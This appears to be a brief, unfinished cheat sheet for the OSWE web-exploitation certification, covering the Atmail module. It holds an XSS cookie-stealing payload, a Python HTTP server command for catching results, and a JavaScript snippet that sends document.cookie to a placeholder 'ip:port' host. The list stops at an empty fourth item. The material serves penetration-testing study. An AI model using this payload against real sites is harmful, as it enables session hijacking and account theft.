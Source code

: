 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus

Module Atmail :

1. Steal cookie payload (Httponly flag should be disable in set-Cookie headers)
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3
    #python3 -m http.server
    
3. Embeded Javascript file in image tag
    #function addImage() {
    #var img = document.createElement('img');
    #img.src = 'http://ip:port/' + document.cookie;
    #document.body.appendChild(img);
    #}
    #addImage();
    
4. 
    
    
    
